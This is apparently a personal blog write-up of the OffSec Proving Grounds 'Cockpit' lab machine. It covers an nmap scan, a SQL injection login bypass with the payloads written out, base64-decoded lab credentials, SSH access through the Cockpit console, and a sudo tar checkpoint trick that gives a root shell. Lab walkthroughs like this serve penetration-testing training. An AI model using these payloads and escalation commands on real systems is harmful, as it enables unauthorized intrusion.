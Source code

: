 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Cockpit"
date:   2024-07-26 21:30:31 -0400
categories: oscp proving-grounds
---
```



192.168.199.10
me - 192.168.45.213

==================================================================================================
dirsearch -u http://192.168.199.10 -r -o dirsearch.txt



# Nmap 7.94SVN scan initiated Fri Jul 26 19:04:42 2024 as: nmap -sV -sC -p- -oA Cockpit 192.168.199.10
Nmap scan report for 192.168.199.10
Host is up (0.027s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp   open  http            Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
9090/tcp open  ssl/zeus-admin?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=blaze/organizationName=d2737565435f491e97f49bb5b34ba02e
| Subject Alternative Name: IP Address:127.0.0.1, DNS:localhost
| Not valid before: 2024-07-26T23:03:39
|_Not valid after:  2124-07-02T23:03:39
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|     margin: 0 0 10px;
|_    @font-face {
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerpri
nt at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9090-TCP:V=7.94SVN%T=SSL%I=7%D=7/26%Time=66A42BDD%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,E45,"HTTP/1\.1\x20400\x20Bad\x20request\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=utf8\r\nTransfer-Encoding:\x20chunked\r\nX
SF:-DNS-Prefetch-Control:\x20off\r\nReferrer-Policy:\x20no-referrer\r\nX-C
SF:ontent-Type-Options:\x20nosniff\r\n\r\n29\r\n<!DOCTYPE\x20html>\n<html>
SF:\n<head>\n\x20\x20\x20\x20<title>\r\nb\r\nBad\x20request\r\nd08\r\n</ti
SF:tle>\n\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20content=\
SF:"text/html;\x20charset=utf-8\">\n\x20\x20\x20\x20<meta\x20name=\"viewpo
SF:rt\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x2
SF:0\x20\x20<style>\n\tbody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:font-family:\x20\"RedHatDisplay\",\x20\"Open\x20Sans\",\x20Helvetica,\x
SF:20Arial,\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20font-size:\x2012px;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:line-height:\x201\.66666667;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20color:\x20#333333;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20background-color:\x20#f5f5f5;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20img\x20{\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20border:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20vertical-align:\x20middle;\n\x20\x20\x20\x20\x20\x20\x20\x20}
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20h1\x20{\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20font-weight:\x20300;\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20}\n\x20\x20\x20\x20\x20\x20\x20\x20p\x20{\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20margin:\x200\x200\x2010px;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20@font-face\x20{\n\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20")%r(HTTPOptions,E45,"HTTP/1\.1\x20400\x20
SF:Bad\x20request\r\nContent-Type:\x20text/html;\x20charset=utf8\r\nTransf
SF:er-Encoding:\x20chunked\r\nX-DNS-Prefetch-Control:\x20off\r\nReferrer-P
SF:olicy:\x20no-referrer\r\nX-Content-Type-Options:\x20nosniff\r\n\r\n29\r
SF:\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x20\x20\x20<title>\r\nb\r\nB
SF:ad\x20request\r\nd08\r\n</title>\n\x20\x20\x20\x20<meta\x20http-equiv=\
SF:"Content-Type\"\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20\x
SF:20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20in
SF:itial-scale=1\.0\">\n\x20\x20\x20\x20<style>\n\tbody\x20{\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20font-family:\x20\"RedHatDisplay\",\x20\"Ope
SF:n\x20Sans\",\x20Helvetica,\x20Arial,\x20sans-serif;\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20font-size:\x2012px;\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20line-height:\x201\.66666667;\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20color:\x20#333333;\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20background-color:\x20#f5f5f5;\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20img\x20{\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20border:\x200;\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20vertical-align:\x20middle;\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20h1\x20{\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-weight:\x20300;\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20\x20p\x20
SF:{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20margin:\x200\x200\x2
SF:010px;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20@font-face\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 26 19:08:07 2024 -- 1 IP address (1 host up) scanned in 204.92 seconds

==================================================================================================
cockpit running on 9090

https://cockpit-project.org/guide/latest/authentication


==================================================================================================
ding dong site on port 80 but has a hidden login page - http://192.168.199.10/login.php



by JDgodd | blaze.offsec (possible user name?)

check for sql injection by putting ' in user name and password fields and we have pay dirt


'OR " = '

'OR '' = '	Allows authentication without a valid username.





Username 	Password
james 	Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=
cameron 	dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy


                                                                                                                     
┌──(kali㉿kali)-[~/offsec/pg-practice/Cockpit]
└─$ echo -n "Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=" | base64 -d              
canttouchhhthiss@455152  


james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152


so ssh doesnt work for the above so we are going back to port 9090 to see if it works there

=======================================================================================================================
james works

```
└─$ cat ~/.ssh/id_ed25519.pub    
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOjpf/mFMlaKOmHjBplkGGlRhZok63RCtb2U9jphjKmG kali@kali
                                                                                                                     
┌──(kali㉿kali)-[~/offsec/pg-practice/Cockpit]
└─$ ssh -i ~/.ssh/id_ed25519 james@192.168.199.10

```

there is a section where we can add private keys so I add on qnd now I CAN SSH IN!




james@blaze:~$ sudo -l
Matching Defaults entries for james on blaze:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on blaze:
    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *



SOOOOOO we just check gtfo bins and under tar it has an example so we do the following:

```
james@blaze:~$ sudo tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
local.txt
# id
uid=0(root) gid=0(root) groups=0(root)
```